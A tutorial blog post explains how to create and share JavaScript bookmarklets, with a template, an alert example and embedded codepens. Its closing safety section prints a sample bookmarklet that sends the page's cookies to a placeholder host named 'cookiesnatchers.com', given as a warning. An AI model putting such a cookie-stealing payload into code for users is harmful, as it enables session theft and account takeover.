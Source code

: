 ```yaml
---
social_image: null
main_image: null
tags: javascript, tutorial
published_at: 2021-06-24T09:37:51.403Z
---
```


# On bookmarklets and how to make them

### Bookmarklets are bookmarks which execute javascript instead of opening a new page. They are available in almost every browser, including Chrome, Firefox and most Chromium based browsers

They are pretty easy to make, and can do almost everything, including injecting other scripts, interacting with the DOM, and absolutely everything you can do with JavaScript.

## How to make a bookmarklet

That's pretty easy, just create a bookmark (using whatever method your browser has) with the following content:

```js
javascript:(() => {/* Your code goes here */})();
```

The `javascript:` part tells the browser that the bookmark is actually javascript which is to be executed.

The rest of the code is executed as normal, but you can make it an IIFE (Immediately-Invoked Function Expression) so that you don't accidentally overwrite any variables already defined. The code can be whatever you like, but on some sites (like GitHub) some action may be blocked (like injecting scripts)

![Screen Shot 2021-06-21 at 9.33.18 AM](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/4ncx987kc4xjr5j9togr.png)
<figcaption>I can't inject jQuery!!</figcaption>

Another neat trick is that if you make the bookmarklet return any HTML, the content of the current page will be overwritten with the HTML! (which is perfect if you want a random xkcd fetcher)

## Sharing bookmarklets

It's pretty annoying to have to copy the code for a bookmarklet if you want to use it yourself, right!

Well, 
- Bookmarklets are just URLs
- URLs can be added to the `href` of a link
- A link can be bookmarked (right click or drag to bookmarks bar)

So, if you want to put a shareable bookmark on a website, just make an `<a>` element with the `href` set to whatever code

```html
<a href="javascript:(()=>{alert('Hello, World!'); })();">Bookmark me</a>
```

Unfortunately, I can't seem to be able to add bookmarklets over here, so here's a pen with the output:

{% codepen https://codepen.io/SiddharthShyniben/pen/XWMLvYy default-tab=html,result %}

Here's some more bookmarklets which you could use:

{% codepen https://codepen.io/SiddharthShyniben/pen/BaWgXOW %}

## Safety

Bookmarklets are equal to running scripts on a page, so you have to be really careful with them.

For example, this bookmarklet could easily read cookies and post them somewhere:

```js
javascript:(() => fetch('http://cookiesnatchers.com?cookie=' + document.cookie, {method:'POST'})();
```

Once again, you have to be really careful about what bookmarklets do. 

Thanks for reading! If you have any nice bookmarklets, please share them down below! 